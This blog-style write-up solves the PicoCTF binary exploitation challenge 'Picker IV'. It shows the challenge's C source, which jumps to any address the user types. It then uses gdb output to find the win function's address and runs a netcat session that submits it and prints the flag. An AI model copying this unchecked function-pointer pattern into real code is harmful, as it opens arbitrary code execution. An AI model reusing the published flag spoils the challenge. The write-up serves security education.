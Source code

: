 +++
author = 'Alex Domnit'
title = 'Picker IV'
date = 2024-10-24T12:52:41+03:00
draft = false
description = "Writeup"
tags = [
    "CTF",
    "Completed",
]
categories = [
    "PicoCTF",
    "Binary Exploitation",
]
toc = false
+++

### Level Description

Can you figure out how this program works to get the flag? Connect to the program with netcat: $ nc saturn.picoctf.net 58238\
The program's source code can be downloaded **here**. The binary can be downloaded **here**.

### Doc

[Primer](https://primer.picoctf.org/)\
A very usefull tool for solving Pico challanges is the primer where you can find docs for basically all the chapters explored on the site.\
[What is GDB?](https://www.sourceware.org/gdb/)\
GDB, the GNU Project debugger, allows you to see what is going on `inside' another program while it executes -- or what another program was doing at the moment it crashed.

GDB can do four main kinds of things (plus other things in support of these) to help you catch bugs in the act:
1. Start your program, specifying anything that might affect its behavior.
2. Make your program stop on specified conditions.
3. Examine what has happened, when your program has stopped.
4. Change things in your program, so you can experiment with correcting the effects of one bug and go on to learn about another. 

### Solution

There is given a c source code and a binary.

**Source :**

```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void print_segf_message(){
  printf("Segfault triggered! Exiting.\n");
  sleep(15);
  exit(SIGSEGV);
}

int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}

int main() {
  signal(SIGSEGV, print_segf_message);
  setvbuf(stdout, NULL, _IONBF, 0); // _IONBF = Unbuffered

  unsigned int val;
  printf("Enter the address in hex to jump to, excluding '0x': ");
  scanf("%x", &val);
  printf("You input 0x%x\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

**netcat** into the instance in order to see what we can input.

**nc :**

```
01:03:13 archie@Archie ~ →  nc saturn.picoctf.net 56876
Enter the address in hex to jump to, excluding '0x': 1
You input 0x1
Segfault triggered! Exiting.
```

The goal seems to be inputting the adress of the function **win** in order for it to spit out the solution. Even tho gbd is installed on pico instances by default, you have access to the binary so further analysis can be done locally.\
We use **info functions** on the binary in gbdto see the attached adresses to the functions.

```
01:05:00 archie@Archie ~ → gdb Downloads/picker-IV
GNU gdb (GDB) 15.2
Copyright (C) 2024 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-pc-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from Downloads/picker-IV...

This GDB supports auto-downloading debuginfo from the following URLs:
  <https://debuginfod.archlinux.org>
Enable debuginfod for this session? (y or [n]) y
Debuginfod has been enabled.
To make this setting permanent, add 'set debuginfod enabled on' to .gdbinit.
(No debugging symbols found in Downloads/picker-IV)
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x00000000004010e0  putchar@plt
0x00000000004010f0  puts@plt
0x0000000000401100  fclose@plt
0x0000000000401110  printf@plt
0x0000000000401120  fgetc@plt
0x0000000000401130  signal@plt
0x0000000000401140  setvbuf@plt
0x0000000000401150  fopen@plt
0x0000000000401160  __isoc99_scanf@plt
0x0000000000401170  exit@plt
0x0000000000401180  sleep@plt
0x0000000000401190  _start
0x00000000004011c0  _dl_relocate_static_pie
0x00000000004011d0  deregister_tm_clones
0x0000000000401200  register_tm_clones
0x0000000000401240  __do_global_dtors_aux
0x0000000000401270  frame_dummy
0x0000000000401276  print_segf_message
0x000000000040129e  win
0x0000000000401334  main
0x00000000004013d0  __libc_csu_init
0x0000000000401440  __libc_csu_fini
0x0000000000401448  _fini
```

Now simply put that adress into netcat and get the flag.

```
01:10:14 archie@Archie ~ → nc saturn.picoctf.net 62038
Enter the address in hex to jump to, excluding '0x': 000000000040129e
You input 0x40129e
You won!
picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_b8de1af4}
```